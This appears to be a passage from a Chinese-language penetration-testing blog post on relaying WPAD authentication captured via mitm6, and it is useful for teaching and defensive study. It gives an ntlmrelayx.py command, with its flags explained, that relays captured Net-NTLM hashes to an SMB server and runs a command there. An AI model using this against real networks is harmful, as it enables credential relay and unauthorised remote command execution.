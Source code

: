 ![](/assets/posts/2022-03-26-relaying-wpad-authentication-using-mitm6/image-20220417112702930.png)

## 中继 WPAD 身份验证

获取到的 Net-NTLM Hash 可以用来暴力破解，也可以通过 [ntlmrelayx.py](https://github.com/CoreSecurity/impacket/blob/master/examples/ntlmrelayx.py) 执行 NTLM Relay，直接认证到网络中的其它服务器，如下图所示。

```bash
python ntlmrelayx.py -wh 172.26.10.134 -t smb://172.26.10.13 -smb2support --ipv6 -c whoami

# -wh 启用 WPAD 代理认证攻击, 指定代理服务器的地址 (此处为攻击者服务器的地址)
# -t 指定要 Relay 到的目标服务器
# --ipv6 同时监听 IPv4 和 IPv6 网络
# -c 指定要在目标服务器上执行的命令
```
